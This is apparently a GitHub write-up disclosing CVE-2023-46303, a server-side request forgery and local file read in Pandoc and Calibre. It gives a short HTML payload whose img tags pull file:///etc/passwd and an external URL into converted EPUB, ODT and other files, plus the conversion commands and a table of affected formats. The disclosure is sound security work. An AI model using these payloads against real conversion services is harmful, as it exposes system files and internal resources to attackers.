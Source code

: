 # :bee: CVE-2023-46303
## SSRF Vulnerability in PANDOC and CALIBRE
-
-
-
-
- 
## :mushroom: PANDOC

### :spider_web: https://github.com/jgm/pandoc (Pandoc in Github)
- What is Pandoc?
- Pandoc is a Universal Markup Converter

[![Star History Chart](https://api.star-history.com/svg?repos=jgm/pandoc)](https://star-history.com/#jgm/pandoc)
---
-
-
-
-
## :mushroom: CALIBRE

### :spider_web: https://github.com/kovidgoyal/calibre (Calibre in Github)
- What is Calibre?
- The official source code repository for the calibre ebook manager

[![Star History Chart](https://api.star-history.com/svg?repos=kovidgoyal/calibre&type=Date)](https://star-history.com/#kovidgoyal/calibre)
---
-
-
-
-

## For Example
+ ### We install both applications on a linux computer and create a test file with html

### :lady_beetle: ssrf.html
+ `<img src="file:///etc/passwd">`
+ `<img src="http://ip-api.com/csv">`
+ ![ssrf.html](img/0x1.png "ssrf.html")

## Where does the vulnerability occur and how is it triggered?
+ When we want to convert an html file to a different document via terminal, we use the following command.
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ `$ ebook-convert ssrf.html ssrf.epub` CALIBRE

## SSRF via Converter (Example is PANDOC but you can also try CALIBRE)
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ ![0x2.png](img/0x2.png "0x2.png")
+ ![0x3.png](img/0x3.png "0x3.png")
+ After the html file is successfully converted to epub file, you need to open this epub file with "Archive Manager"
+ When we check the folders and subfolders in the epub file we opened with "Archive Manager", we will see one or two different files. When we open these files, we can see that the ssrf vulnerability is triggered.
+ ![0x4.png](img/0x4.png "0x4.png")
+ ![0x5.png](img/0x5.png "0x5.png")
+ ![0x6.png](img/0x6.png "0x6.png")
+ ![0x7.png](img/0x7.png "0x7.png")
+ ![0x8.png](img/0x8.png "0x8.png")

---
-
-
-
-

+ I went through all converter processes in pandoc and calibre and found that this vulnerability exists in multiple converters.
+ In the table below, you can examine what types of ssrf are in which files.
+ You can also use the iframe tag instead of the img tag in calibre.

| PANDOC | EPUB | ODT | DOCX | PPTX | FB2 |
| --- | --- | --- | --- | --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: | :x:
`<img src="http://ip-api.com/csv">` | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: (Base64 Encoded)

| CALIBRE | EPUB |
| --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: |
`<img src="http://ip-api.com/csv">` | :x: |

+ In the example, we converted our html file to epub, but as you can see in the table above, we can see that the vulnerability is triggered not only when converting to epub but also other files.
---
-
-
-
-

> #### Created by 0x1717 aka GYG3S

